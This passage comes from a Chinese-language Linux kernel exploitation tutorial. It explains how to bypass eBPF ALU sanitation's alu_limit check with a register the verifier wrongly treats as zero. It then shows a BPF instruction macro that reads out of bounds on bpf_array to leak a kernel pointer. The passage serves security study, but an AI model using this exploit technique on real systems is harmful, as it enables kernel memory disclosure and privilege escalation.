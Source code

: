 ```
                        insn      = new_prog->insnsi + i + delta;
                        continue;
                }
```  
  
其中 aux->alu_limit 为  
当前指针运算范围，初始时为 0，与指针所做的常量运算同步，对于减法而言可读范围为 (ptr - alu_limit, ptr] （以指针最初指向的地址为 0），因此我们还需要绕过这个检查  
  
由于我们有运行时为 1、verifier 认为是 0 的寄存器，我们可以这样调整范围：  
- 构造另外一个同样是运行时值为 1、verifier 认为是 0 的寄存器 R8  
  
- 将 R8 乘上一个不大于 value size 的值（例如 value size 为 0x1000，R8 便设为 0x1000）  
  
- 将指向 map 第一个元素第一个字节 value[0] 的寄存器（假设为 R7 ）先加上 0x1000，此时 alu_limit 变为 0x1000，R7 指向 value[0x1000]  
  
- R7 -= R8，由于 verifier 认为 R8 为 0，因此 alu_limit 保持不变，  
但 R7 实际上已经指回了 value[0]  
  
由此我们便能继续愉快地进行前向的越界读了  
> 注：在内核版本 5.11.8 之前 ALU Sanitation 存在一个漏洞，即 aux_alu_limit 被初始化为 0 从而导致 0-1 造成整型溢出变为一个巨大的值，在这个 commit 中才被修复，因此对于 5.11.8 之前版本的内核而言是不需要绕过该检查的  
  
### OOB-read on bpf_array  
  
现在让我们来看看这个存放数据的位置附近有没有什么有趣的数据，对于 BPF_MAP_TYPE_ARRAY 类型 的 map 而言，其 wrapper 为 bpf_array 类型（即 bpf_map 内嵌于该结构体中），  
数据则直接存放在其内部的 value   
数组成员当中，因此在查找元素时我们获得的其实是一个指向 bpf_array 内部的指针：  
```
struct bpf_array {
        struct bpf_map map;
        u32 elem_size;
        u32 index_mask;
        struct bpf_array_aux *aux;
        union {
                DECLARE_FLEX_ARRAY(char, value) __aligned(8);
                DECLARE_FLEX_ARRAY(void *, ptrs) __aligned(8);
                DECLARE_FLEX_ARRAY(void __percpu *, pptrs) __aligned(8);
        };
};
```  
  
因此我们只需要前向读取便能读取到 bpf_map，之后通过 bpf_map 的函数表（bpf_map->ops ）便能泄露出内核地址，这里我们将 bpf_array_ops 的值读取到 map[1] 中：  
```
#define READ_KERNEL_INFO(__map_fd)                      \        /* extend the alu->limit and do the oob read */ \        BPF_READ_ARRAY_MAP_IDX(0, __map_fd, BPF_REG_7), \        BPF_MOV64_REG(BPF_REG_8, VULN_REG),             \        BPF_ALU64_IMM(BPF_ADD, BPF_REG_7, 0x1000),      \        BPF_ALU64_IMM(BPF_MUL, BPF_REG_8, 0x1000),      \        BPF_ALU64_REG(BPF_SUB, BPF_REG_7, BPF_REG_8),   \        BPF_ALU64_IMM(BPF_MUL, VULN_REG, 0x110),        \        BPF_ALU64_REG(BPF_SUB, BPF_REG_7, VULN_REG),    \        BPF_LDX_MEM(BPF_DW, BPF_REG_8, BPF_REG_7, 0),   \        /* save the value into map */                   \        BPF_READ_ARRAY_MAP_IDX(1, __map_fd, BPF_REG_7), \        BPF_STX_MEM(BPF_DW, BPF_REG_7, BPF_REG_8, 0)
```  
  